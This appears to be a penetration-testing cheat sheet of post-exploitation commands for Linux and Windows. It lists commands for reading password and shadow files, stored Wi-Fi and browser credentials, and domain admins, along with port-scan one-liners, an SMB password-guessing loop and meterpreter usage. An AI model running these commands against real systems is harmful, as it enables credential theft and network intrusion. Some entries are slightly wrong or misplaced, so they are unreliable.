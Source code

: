 ```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Distro Version | <code>cat /etc/issue </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>
Find Interesting Files | <code> wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE </code>
Find Interesting File Names and Perms | <code> find / -iname "shadow*" -perm /o+r -ls 2>/dev/null </code>
Find Interesting Content Files 1 | <code> grep -irIL pass /opt/ 2>/dev/null </code>
Find Interesting Content Files 2 | <code> find /home -iname "*.txt" 2>/dev/null -exec grep -c 2 -li  'pass' {} \; </code>
Find Interesting Content Regex | <code> find /home -iname "*.txt" 2>/dev/null -exec egrep -li "^.+@.+$" {} \; </code>

> **Local Windows Accounts and Processes**

Determine Account | <code> whoami, set username </code>
Determin OS Information | <code> wmic os get Caption <code>
Determine OS Information 2 | <code> wmic computersystem LIST full </code>
Anti-Virus info | <code> wmic /namespace:\\root\securitycenter2 path antivirusproduct </code>
Patches Installed | <code> wmic qfe list brief </code>
Processes | <code> tasklist /V /FO CSV </code>
Services | <code> sc query </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup [/domain] </code> 
List Administrators | <code> net localgroup administrators [/domain] </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
List Groups for Account | <code> DSQUERY USER -samid loginname | DSGET USER -memberof -expand </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Find Interesting Files | <code> ls -r -file -filter pass* </code>
Find Interesting Info in Files | <code> ls -r c:\ -file | % {select-string -path $_ -pattern mypassword} </code>

If using meterpreter run getprivs, you are an admin if it looks like this:

============================================================
Not Admin
============================================================
  SeShutdownPrivilege
  SeChangeNotifyPrivilege
  SeUndockPrivilege

============================================================
Admin
============================================================
  SeDebugPrivilege
  SeIncreaseQuotaPrivilege
  SeSecurityPrivilege
  SeTakeOwnershipPrivilege
  SeLoadDriverPrivilege
  SeSystemProfilePrivilege
  SeSystemtimePrivilege
  SeProfileSingleProcessPrivilege
  SeIncreaseBasePriorityPrivilege
  SeCreatePagefilePrivilege
  SeBackupPrivilege
  SeRestorePrivilege
  SeShutdownPrivilege
  SeSystemEnvironmentPrivilege
  SeChangeNotifyPrivilege
  SeRemoteShutdownPrivilege
  SeUndockPrivilege
  SeManageVolumePrivilege

> **Windows Domain  Enumeration**

List Domain Info | <code> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE </code>
MSF Domain Info | <code> run post/windows/gather/enum_domain </code>
List Domain User Info | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user where "ds_samaccountname='testAccount'" GET  </code>
List All Users | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname </code>
List All Groups | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname </code>
List Members of Group (e.g., domain admin) | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname </code>
List Domain Controllers | <code> NETDOM QUERY /D:MyDomain DC </code>
List Domain Controllers | <code> DSQUERY Server </code>
List Member Servers | <code> NETDOM QUERY /D:MyDomain SERVER </code>
List all Workstations | <code> NETDOM QUERY /D:MyDomain WORKSTATION </code>
List all shares for a system | <code> net view [system] /ALL [/Domain] </code>

> **Windows Network Enumeration**

DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Routing Table | <code> netstat -nr  </code>
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
PowerShell port scanner | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null </code>
Scan a range of IPs for a single port | <code> foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip} </code>
PS IP range & port range scanner | <code> 1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null} </code>
PS test egress filtering | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open!" } 2>$null </code>
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 

> **Firefox**

Finding user browser history and passwords in history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}


> **Interesting Files**

Passwords.txt	| Users often create password files as reminders.
wp-config.php | 	WordPress configuration file. Stores database passwords.
key3.db / logins.json	| Password file for the Firefox web browser.
<custom>.sh	| Administrators often store plaintext passwords in automation scripts
fstab	| The fstab may contain passwords to mounted samba shares
*.pst	| Users may email passwords around. These can often be found in .pst files
  
> **Regex Library**

[regexlib](http://www.regexlib.com/)

